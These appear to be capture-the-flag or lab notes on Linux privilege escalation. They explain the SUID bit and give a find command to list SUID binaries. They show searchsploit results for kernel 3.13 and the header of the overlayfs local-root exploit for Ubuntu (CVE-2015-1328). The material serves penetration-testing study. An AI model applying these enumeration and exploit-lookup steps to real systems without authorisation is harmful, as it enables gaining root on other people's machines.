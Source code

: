 Below is a short example used to find files that have the SUID bit set. The SUID bit allows the file to run with the privilege level of the account that owns it, rather than the account which runs it. This allows for an interesting privilege escalation path. 
Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. 
```bash
find / -perm -u=s -type f 2>/dev/null 
```

What vulnerability seems to affect the kernal of the target system (3.13.0) Ubuntu?
```bash
searchsploit 3.13
---------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                          |  Path
---------------------------------------------------------------------------------------- ---------------------------------
AjentiCP 1.2.23.13 - Cross-Site Scripting                                               | php/webapps/45691.txt
Apple Mac OSX xnu 1228.3.13 - 'macfsstat' Local Kernel Memory Leak/Denial of Service    | osx/dos/8263.c
Apple Mac OSX xnu 1228.3.13 - 'Profil' Kernel Memory Leak/Denial of Service (PoC)       | osx/dos/8264.c
Apple Mac OSX xnu 1228.3.13 - 'zip-notify' Remote Kernel Overflow (PoC)                 | osx/dos/8262.c
Apple Mac OSX xnu 1228.3.13 - IPv6-ipcomp Remote kernel Denial of Service (PoC)         | multiple/dos/5191.c
Atlassian JIRA 3.13.5 - File Download Security Bypass                                   | multiple/remote/35898.php
Bludit 3.13.1 - 'username' Cross Site Scripting (XSS)                                   | php/webapps/50529.txt
Chevereto 3.13.4 Core - Remote Code Execution                                           | php/webapps/47903.py
Deluge Web UI 1.3.13 - Cross-Site Request Forgery                                       | json/webapps/41541.html
GetSimple CMS 3.3.13 - Cross-Site Scripting                                             | php/webapps/44408.txt
id Software Solaris Quake II 3.13/3.14 / QuakeWorld 2.0/2.1 / Quake 1.9/3.13/3.14 - Com | linux/remote/19079.c
Linux Kernel 3.13 - SGID Privilege Escalation                                           | linux/local/33824.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privile | linux/local/37292.c

searchsploit -x 37292
/*
# Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/CVE-2015-1328.html)
```

